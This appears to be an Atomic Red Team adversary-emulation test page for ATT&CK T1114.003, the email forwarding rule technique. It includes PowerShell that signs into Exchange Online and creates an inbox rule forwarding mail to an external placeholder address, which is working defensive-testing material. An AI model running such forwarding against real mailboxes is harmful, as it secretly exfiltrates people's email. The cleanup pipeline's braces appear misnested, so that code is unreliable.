 # T1114.003 - Email Collection: Email Forwarding Rule
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1114/003)
<blockquote>

Adversaries may setup email forwarding rules to collect sensitive information. Adversaries may abuse email forwarding rules to monitor the activities of a victim, steal information, and further gain intelligence on the victim or the victim’s organization to use as part of further exploits or operations.(Citation: US-CERT TA18-068A 2018) Furthermore, email forwarding rules can allow adversaries to maintain persistent access to victim's emails even after compromised credentials are reset by administrators.(Citation: Pfammatter - Hidden Inbox Rules) Most email clients allow users to create inbox rules for various email functions, including forwarding to a different recipient. These rules may be created through a local email application, a web interface, or by command-line interface. Messages can be forwarded to internal or external recipients, and there are no restrictions limiting the extent of this rule. Administrators may also create forwarding rules for user accounts with the same considerations and outcomes.(Citation: Microsoft Tim McMichael Exchange Mail Forwarding 2)(Citation: Mac Forwarding Rules)

Any user or administrator within the organization (or adversary with valid credentials) can create rules to automatically forward all received messages to another recipient, forward emails to different locations based on the sender, and more. Adversaries may also hide the rule by making use of the Microsoft Messaging API (MAPI) to modify the rule properties, making it hidden and not visible from Outlook, OWA or most Exchange Administration tools.(Citation: Pfammatter - Hidden Inbox Rules)

In some environments, administrators may be able to enable email forwarding rules that operate organization-wide rather than on individual inboxes. For example, Microsoft Exchange supports transport rules that evaluate all mail an organization receives against user-specified conditions, then performs a user-specified action on mail that adheres to those conditions.(Citation: Microsoft Mail Flow Rules 2023) Adversaries that abuse such features may be able to enable forwarding on all or specific mail an organization receives. 

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office365 - Email Forwarding](#atomic-test-1---office365---email-forwarding)


<br/>

## Atomic Test #1 - Office365 - Email Forwarding
Creates a new Inbox Rule to forward emails to an external user via the "ForwardTo" property of the New-InboxRule Powershell cmdlet.

**Supported Platforms:** Office-365


**auto_generated_guid:** 3234117e-151d-4254-9150-3d0bac41e38c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | office-365 username | string | |
| password | office-365 password | string | |
| rule_name | email rule name | string | Atomic Red Team Email Rule|
| forwarding_email | destination email addresses | string | Atomic_Operator@fakeemail.aq|


#### Attack Commands: Run with `powershell`! 


```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
New-InboxRule -Name "#{rule_name}" -ForwardTo "#{forwarding_email}"
```

#### Cleanup Commands:
```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Get-InboxRule | Where-Object { $_.Name -eq "#{rule_name}" | ForEach-Object { Remove-InboxRule -Identity $_.Identity -Force -Confirm:$False }
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed. Your user must also have an Exchange license.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement         
Import-Module ExchangeOnlineManagement
```




<br/>
